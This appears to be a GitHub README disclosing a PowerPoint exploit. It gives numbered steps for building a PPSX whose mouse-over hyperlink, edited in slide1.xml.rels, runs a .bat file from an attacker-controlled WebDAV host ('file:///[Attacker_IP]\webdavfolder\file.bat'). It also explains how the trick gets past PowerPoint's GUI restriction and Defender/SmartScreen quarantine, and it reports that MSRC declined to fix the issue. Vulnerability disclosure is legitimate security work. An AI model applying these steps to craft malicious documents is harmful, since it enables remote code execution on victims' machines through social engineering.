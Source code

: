 ## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

## Note:
1. The attack is able to bypass the Powerpoint's restriction of not being able to add an remote file to the HyperLink action which iif you try to add using the GUI, we will see MS complaining about it

2. Also if a HTTP/HTTPS url is linked with the hyperlink action, thene the OS would download the file using a browser on the system at which point Windows Defender/Smartscreen would kick in indication that it is untrusted file and even if you hit 'Run', it will quartine the file, so an attacker can bypass that using this method

3. MSRC was contacted about the vulnerability, but they decided to ignore it and stated that since it requires social engineering attack, they are not willing to fix it.

![](exploit.gif)
